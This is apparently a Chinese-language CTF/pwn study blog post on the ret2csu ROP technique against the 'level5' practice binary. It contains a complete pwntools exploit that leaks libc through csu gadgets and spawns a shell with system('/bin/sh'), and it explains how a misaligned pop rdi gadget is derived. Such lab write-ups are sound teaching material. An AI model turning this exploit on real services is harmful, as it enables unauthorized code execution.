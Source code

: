 ```yaml
---
title: 中级ROP-ret2csu
date:  2020-08-11 08:15:43
updated: 2020-08-11 08:15:43
tags:
    - 中级ROP
    - wiki
    - pwn
    - ret2csu
categories: 
	- 二进制安全
	- wiki-pwn
use:
  - Valine
text: true
lazyload: true
count: true
---
```

# 1.查看

蒸米的一步一步学 ROP 之 linux_x64 篇中 level5 

![image.png](https://i.loli.net/2020/11/17/ITPvgBdYkDRjlEN.png)

# 2.ida分析

![image.png](https://i.loli.net/2020/11/17/W8wMjCnbUhDmTVO.png)

![image.png](https://i.loli.net/2020/11/17/aBqDTYkRXfUugoW.png)

# 3.编写脚本

```python
#!/usr/bin/env python
#coding=utf-8
from pwn import *
my_u64 = lambda x: u64(x.ljust(8, '\0'))
context.log_level = 'debug'
p=process('./level5')
elf=ELF('./level5')
libc = elf.libc

write_plt=elf.symbols['write']
write_got=elf.got['write']
vuln=elf.symbols['vulnerable_function']

pop6=0x40061A #pop rbx,pop rbp,pop r12,pop r13,pop r14,pop r15
mov=0x400600 #mov rdx, r13;mov rsi, r14;mov edi, r15d;call qword ptr [r12+rbx*8]

payload='a'*0x88
payload+=p64(pop6)
payload+=p64(0)+p64(1)+p64(write_got)+p64(8)+p64(write_got)+p64(1)
payload+=p64(mov)
payload+='a'*8*7    #平衡栈
payload+=p64(vuln)
p.recvuntil('Hello, World\n')
p.send(payload)

write=u64(p.recv(8))
print hex(write)

base=write-libc.symbols['write']
system=libc.symbols['system']+base
binsh=next(libc.search('/bin/sh'))+base

pop_rdi_ret=0x400623
payload='a'*0x88+p64(pop_rdi_ret)+p64(binsh)+p64(system)

p.send(payload)

p.interactive()
```

**pop_rdi_ret=0x400623**

**这个是怎么来的？ida里为什么没有？**

## 第一种方法：

直接ROPgadget找gadgets即可：

![image.png](https://i.loli.net/2020/11/17/l3eQt6JIwzNAmE2.png)

## 第二种方法：

我们看看csu_init的结尾几个pop的机器码：

![image.png](https://i.loli.net/2020/11/17/LBS3cpF8JI2zolf.png)

pop rbx--------->5B

pop rbp--------->5D

pop r12---------->41 5C

pop r13---------->41 5D

pop r14---------->41 5E

pop r15---------->41 5F

是不是感觉很有规律

其实原理就是这样

机器码就是有规律的，而这个规律我们在这可以巧妙地利用起来

查手册（或者od/ida之类的改一下机器码）得到5F是pop rdi

![image.png](https://i.loli.net/2020/11/17/aEC1X4AbgieMfJU.png)

那么看上面最后：

**0x400622 pop r15---------->41 5F
**

如果我们+1，就会变成

**0x400623 pop rdi---------->5F**

可以说就是凑出来的

其实这一段gedgets还能凑一些别的：
![image.png](https://i.loli.net/2020/11/17/NfDQvxZGM3mw492.png)